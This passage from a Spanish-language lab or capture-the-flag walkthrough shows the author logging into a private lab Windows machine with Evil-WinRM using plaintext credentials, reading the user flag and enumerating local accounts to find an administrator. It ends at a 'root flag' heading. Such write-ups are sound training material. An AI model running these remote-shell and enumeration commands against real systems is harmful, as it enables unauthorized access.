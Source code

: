 Podemos simplemente conectarnos usando **Evil-WinRM** y obtener una **PowerShell** como el usuario nica.

  ```ruby
  ┌──(root㉿kali)-[/home/user]
  └─$ evil-winrm -i 192.168.56.102 -u nica -p hardcore

    Evil-WinRM shell v3.7

    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\nica\Documents> whoami
    win-iurf14rbvgv\nica
  ```
  En este punto podemos leer la primera flag con dicho usuario

  ```ruby

  *Evil-WinRM* PS C:\Users\nica> ls

  Directorio: C:\Users\nica

    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        9/15/2018   9:12 AM                Desktop
    d-r---        9/26/2023   6:44 PM                Documents
    d-r---        9/15/2018   9:12 AM                Downloads
    d-r---        9/15/2018   9:12 AM                Favorites
    d-r---        9/15/2018   9:12 AM                Links
    d-r---        9/15/2018   9:12 AM                Music
    d-r---        9/15/2018   9:12 AM                Pictures
    d-----        9/15/2018   9:12 AM                Saved Games
    d-r---        9/15/2018   9:12 AM                Videos
    -a----        9/26/2023   6:44 PM             10 user.txt
      
  *Evil-WinRM* PS C:\Users\nica> cat user.txt
   H******
  ```
  Ahora podemos observar varias cosas, pero en lo que nos centraremos es en que hay un usuario administrador llamado **akanksha.**

  ```ruby
  *Evil-WinRM* PS C:\Users\nica> net users

  Cuentas de usuario de \\

  -------------------------------------------------------------------------------
  Administrador            akanksha                 DefaultAccount
  Invitado                 nica                     WDAGUtilityAccount
  El comando se ha completado con uno o m s errores.
  ```
# Flag de root
